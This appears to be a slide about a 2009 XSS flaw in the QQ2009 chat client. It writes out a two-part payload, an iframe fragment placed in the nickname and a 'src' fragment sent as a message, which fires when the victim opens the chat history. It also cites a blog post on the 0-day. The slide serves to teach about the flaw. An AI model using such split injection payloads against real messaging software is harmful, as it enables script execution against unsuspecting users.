

# QQ2009 XSS
QQ2009客户端的XSS攻击
昵称修改为：<iframe x=`
发送一条这样的消息给被攻击者：`src=`http:\\%62aidu.com`y=。当被攻击者查看聊天记录时，触发以上代码
more from http://xeye.us/blog/2009/04/qq-xss-0day/
QQ2009查找群的XSS风险